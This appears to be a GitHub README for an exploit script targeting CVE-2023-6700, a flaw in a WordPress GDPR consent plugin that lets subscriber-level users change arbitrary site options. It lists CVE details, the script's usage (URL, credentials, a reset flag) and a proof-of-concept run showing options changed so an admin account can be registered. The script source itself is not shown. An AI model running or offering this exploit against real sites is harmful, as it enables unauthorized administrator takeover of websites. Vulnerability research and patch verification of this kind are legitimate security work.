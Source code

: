 # CVE-2023-6700
Cookie Information | Free GDPR Consent Solution &lt;= 2.0.22 - Authenticated (Subscriber+) Arbitrary Options Update


### Description:
CVE-2023-6700 The Cookie Information | Free GDPR Consent Solution plugin for WordPress is vulnerable to arbitrary option updates due to a missing capability check on its AJAX request handler in versions up to, and including, 2.0.22. This makes it possible for authenticated attackers, with subscriber-level access or higher, to edit arbitrary site options which can be used to create administrator accounts.

```
Severity: high
CVE ID: CVE-2023-6700
CVSS Score: 8.8
CVSS Metrics: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
Plugin Slug: wp-gdpr-compliance
WPScan URL: https://www.wpscan.com/plugin/wp-gdpr-compliance
Reference URL: https://www.wordfence.com/threat-intel/vulnerabilities/id/42a4ef37-c842-4925-b06a-3e6423337567?source=api-prod
Diff URL: https://plugins.trac.wordpress.org/changeset/3028096/wp-gdpr-compliance/trunk?contextall=1&old=2865555&old_path=%2Fwp-gdpr-compliance%2Ftrunk
```

How to use
---
```
usage: CVE-2023-6700.py [-h] -u URL [-un USERNAME] [-p PASSWORD] [-f FIX]

Cookie Information | Free GDPR Consent Solution <= 2.0.22 - Authenticated (Subscriber+) Arbitrary Options Update
Description: CVE-2023-6700 The Cookie Information | Free GDPR Consent Solution plugin for WordPress is vulnerable to
arbitrary option updates due to a missing capability check on its AJAX request handler in versions up to, and including,
2.0.22. This makes it possible for authenticated attackers, with subscriber-level access or higher, to edit arbitrary site
options which can be used to create administrator accounts.

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Website URL
  -un USERNAME, --username USERNAME
                        WordPress username
  -p PASSWORD, --password PASSWORD
                        WordPress password
  -f FIX, --fix FIX     Reset after Exploit
```

POC
---
```
python3 CVE-2023-6700.py -u http://wordpress.lan -un user -p useruser1
The plugin version is below 2.0.23.
The plugin version is 2.0.21
Vulnerability check: http://wordpress.lan
Logged in successfully.
Option set successfully: http://wordpress.lan/wp-admin/admin-ajax.php
Option set successfully: http://wordpress.lan/wp-admin/admin-ajax.php
You can now register a user as an admin user. Remember to run --fix yes after you have registered to prevent others exploiting the site.
```
